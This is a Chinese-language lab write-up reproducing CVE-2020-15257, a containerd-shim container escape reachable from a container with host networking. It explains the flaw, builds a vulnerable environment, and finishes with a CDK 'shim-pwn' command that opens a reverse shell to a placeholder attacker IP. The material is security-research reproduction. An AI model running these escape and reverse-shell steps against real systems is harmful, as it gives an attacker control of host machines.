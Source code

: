 # Containerd漏洞导致容器逃逸（CVE-2020-15257）

## 场景介绍

Containerd是一个控制runC的守护进程，提供命令行客户端和API，用于在一个机器上管理容器。

在版本1.3.9之前和1.4.0~1.4.2的Containerd中，由于在**网络模式为host**的情况下，容器与宿主机共享一套Network namespace ，此时containerd-shim API暴露给了用户，而且访问控制仅仅验证了连接进程的有效UID为0，但没有限制对抽象Unix域套接字的访问，刚好在**默认情况下，容器内部的进程是以root用户启动**的。在两者的共同作用下，容器内部的进程就可以像主机中的containerd一样，连接containerd-shim监听的抽象Unix域套接字，调用containerd-shim提供的各种API，从而实现容器逃逸。

## 环境搭建

漏洞环境准备：

```bash
./metarget cnv install cve-2020-15257
```

## 漏洞复现

使用以下命令启动容器:

```bash
sudo docker run -it --net=host --name=15257 ubuntu /bin/bash
```

在容器内执行命令`cat /proc/net/unix|grep -a "containerd-shim"`，查看结果确认是否可看到抽象命名空间Unix域套接字:

![image-20210618151008778](images/1.png)

在攻击端监听1234端口，然后下载漏洞利用工具[CDK](https://github.com/cdk-team/CDK)，并将其传入容器/tmp目录下：

```bash
sudo docker cp cdk_linux_amd64 15257:/tmp
sudo docker exec -it 15257 bash
```

运行工具，执行反弹shell命令,验证得到一个宿主机的shell:

```bash
cd /tmp
./cdk_linux_amd64 run shim-pwn reverse attacker-ip port
```

## 参考文献

1. https://mp.weixin.qq.com/s/WmSaLPnG4o4Co1xRiYCOnQ
2. https://www.cdxy.me/?p=837
